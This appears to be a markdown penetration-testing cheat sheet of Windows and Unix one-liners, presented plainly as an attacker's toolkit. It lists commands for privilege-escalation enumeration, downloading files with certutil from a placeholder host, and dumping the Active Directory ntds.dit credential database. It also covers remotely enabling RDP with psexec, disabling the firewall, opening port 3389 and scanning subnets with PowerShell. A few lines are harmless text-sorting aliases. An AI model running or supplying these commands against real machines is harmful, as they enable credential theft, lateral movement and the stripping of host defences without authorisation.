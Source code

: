 - Find unquoted service path enumeration:<br>
    - wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

- World Readable and Writable Directories/Files on the machine:<br>
    - accesschk64.exe everyone -uqws C:\

- Python Web Server
    - python 3+: python -m http.server 1111 
    - python 2+: python -m SimpleHTTPServer 1111
    
- Display all firewall rules:
    - netsh advfirewall firewall show rule name=all

- Download file on a Windows box using cmd:
    - certutil -urlcache -split -f http://example.com/file 
    
- Extract ntds.dit file
    - ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q

- Enable RDP:
    - reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    - psexec \\\\hostname reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
    - psexec \\\\hostname netsh firewall set service remoteadmin enable
    
- Finding juicy files:
    - findstr /spin /c:"string" [files]
    
- Windows PowerShell nmap:
    - 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("127.0.0.1",$_)) "Port $_ is open!"} 2>$null
    - 1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}
    
- Unix Onliners to find stuff:
    - find -type f | grep -Po '\.[^.]+$' | sort | uniq -c | sort -nr
    - cut -d ',' -f [whatever] file.csv | sort -n | uniq -c | sort -nr
    - .bashrc: alias sortme='sort | uniq -c | sort -nr'
  
- Disable Firewall on a machine
    - netsh firewall set opmode mode=disable
    
- Enable RDP on a machine
    - reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    - netsh firewall set service type = remotedesktop mode =enable
    - netsh firewall add portopening tcp 3389 rdp
    - netsh firewall add portopening udp 3389 rdp


